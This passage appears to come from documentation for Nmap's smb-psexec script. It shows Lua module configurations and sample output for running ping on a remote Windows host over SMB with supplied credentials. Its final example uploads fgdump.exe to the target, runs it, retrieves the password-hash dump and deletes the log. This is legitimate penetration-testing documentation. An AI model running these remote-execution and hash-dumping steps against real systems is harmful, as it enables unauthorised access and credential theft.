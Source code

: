 And the output:

<pre>
  |  Example 4: Can the host ping our address?
  |  | Pinging 192.168.1.100 with 32 bytes of data:
  |  | Reply from 192.168.1.100: bytes=32 time<1ms TTL=64
  |  | Reply from 192.168.1.100: bytes=32 time<1ms TTL=64
  |  | Reply from 192.168.1.100: bytes=32 time<1ms TTL=64
  |  |_Reply from 192.168.1.100: bytes=32 time<1ms TTL=64
</pre>

And this module pings an arbitrary address that the user is expected to give, $host:

<pre>
 mod = {}
 mod.upload           = false
 mod.name             = "Example 5: Can the host ping $host?"
 mod.program          = "ping.exe"
 mod.args             = "$host"
 mod.remove           = {"statistics", "Packet", "Approximate", "Minimum"}
 mod.noblank          = true
 mod.env              = "SystemRoot=c:\\WINDOWS"
 mod.req_args         = {'host'}
 table.insert(modules, mod)
</pre>

And the output:

$ ./nmap -n -d -p445 --script=smb-psexec --script-args=smbuser=test,smbpass=test,config=examples,host=1.2.3.4 192.168.1.21

<pre>
 |  Example 5: Can the host ping 1.2.3.4?
 |  | Pinging 1.2.3.4 with 32 bytes of data:
 |  | Request timed out.
 |  | Request timed out.
 |  | Request timed out.
 |  |_Request timed out.
</pre>

<h2>Example 6: Uploading</h2>
For the final example, we'll use the 'upload' setting to upload the "fgdump.exe", run it, download its output file, and clean up its logfile. You'll have to put fgdump.exe in the same folder as the script for this to work:

<pre>
  mod = {}
  mod.upload           = true
  mod.name             = "Example 6: FgDump"
  mod.program          = "fgdump.exe"
  mod.args             = "-c -l fgdump.log"
  mod.url              = "http://www.foofus.net/fizzgig/fgdump/"
  mod.tempfiles        = {"fgdump.log"}
  mod.outfile          = "127.0.0.1.pwdump"
  table.insert(modules, mod)
</pre>
